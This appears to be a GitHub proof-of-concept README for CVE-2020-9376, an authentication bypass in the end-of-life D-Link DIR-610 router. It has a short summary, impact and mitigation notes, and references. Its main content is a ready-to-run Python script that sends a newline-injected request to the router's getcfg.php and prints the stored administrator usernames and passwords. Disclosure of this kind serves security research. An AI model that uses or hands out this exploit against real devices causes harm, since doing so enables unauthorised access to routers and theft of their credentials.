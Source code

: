 <p align="center">
  <h3 align="center">CVE-2020-9376</h3>
  <p align="center">Authentication bypass on D-LINK 610 Router</p>
</p>

---

### Summary

DIR-610 é um roteador que foi desenvolvido e vendido pela DLINK e foi distribuído na América Central e na América do Sul. Um atacante pode utilizar a CVE-2020-9376 & CVE-2020-9377 para burlar o mecanismo de autenticação desse aparelho e conseguir acesso ao painel de administração desse roteador, permitindo que o mesmo execute de forma arbitrária códigos diretamente no sistema operacional do mesmo.

---

### Description

---

### Exploit

```python
#!/usr/bin/python

import xml.etree.ElementTree as ET
import urllib2
import sys

def main(host, port):
    content = urllib2.urlopen('http://%s:%s/getcfg.php' % (host, port), 'SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1').read()
    root = ET.fromstring(content)

    for user in root.findall('./module/device/account/entry'):
        name = user.findall('./name')[0].text
        password = user.findall('./password')[0].text

        print 'User: %s\\\\nPassword: %s\\\\n\\\\n' % (name, password)

if __name__ == '__main__':
   [host, port] = sys.argv[1:3]
   main(host, port)
```

---

### Impact

An attacker can circumvent the authentication mechanisms of this device and gain access to the administration panel and also to restricted information, such as the users and passwords present on the device, later on, they can exploit the CVE-2020-9377 vulnerability of RCE.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion


---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9376
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication
5. https://portswigger.net/web-security/authentication